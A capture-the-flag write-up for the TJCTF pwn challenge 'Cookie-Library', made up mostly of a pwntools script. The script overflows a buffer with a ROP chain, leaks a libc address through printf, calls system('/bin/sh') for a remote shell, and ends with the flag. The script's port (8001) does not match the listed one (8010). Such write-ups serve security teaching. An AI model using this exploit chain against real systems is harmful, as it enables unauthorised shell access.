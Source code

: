 # Cookie-Library
Pwn, 90

>  Written by KyleForkBomb
>  My friend loves cookies. In fact, she loves them so much her favorite cookie changes all the time. She said there's no reward for guessing her favorite cookie, but I still think she's hiding something.
>  
>  nc p1.tjctf.org 8010 

This challenge is very similar to stop (binary 70). The script is slightly modified to have the correct function/gadget addresses, and we can now use `gets` instead of the `read` function embedded in the stop binary.

```python
from pwn import *
import time

pop = 0x40094a
call = 0x400930
read = 0x4008e0
bss = 0x602000
getchar = 0x601fe8
pread = 0x400398
printf = 0x4005a0
rdi = 0x400953
main = 0x40073c

got = 0x601fe0

#p = process("./stop")
p = remote("p1.tjctf.org", 8001)
#gdb.attach(p)
p.sendline("a")
p.sendline("A"*256+"B"*24+p64(0x40056e)+p64(rdi)+p64(got)+p64(printf)+p64(pop)+p64(0)+p64(1)+p64(pread)+p64(0)+p64(bss)+p64(0x4141)+p64(call)+p64(0)+p64(0)+p64(1)+p64(bss+8)+p64(bss)+p64(0)+p64(0)+p64(0x40056e)+p64(call))
p.recvuntil("yet\n")
printf = u64(p.recvuntil("\x7f")+"\x00\x00")
system = printf-0x15a40
#system = printf-0xE2A0
print(hex(system))
p.sendline("/bin/sh\x00"+p64(system))
p.interactive()
```

Flag: `tjctf{c00ki3_yum_yum_mmMmMMmMMmmMm}`
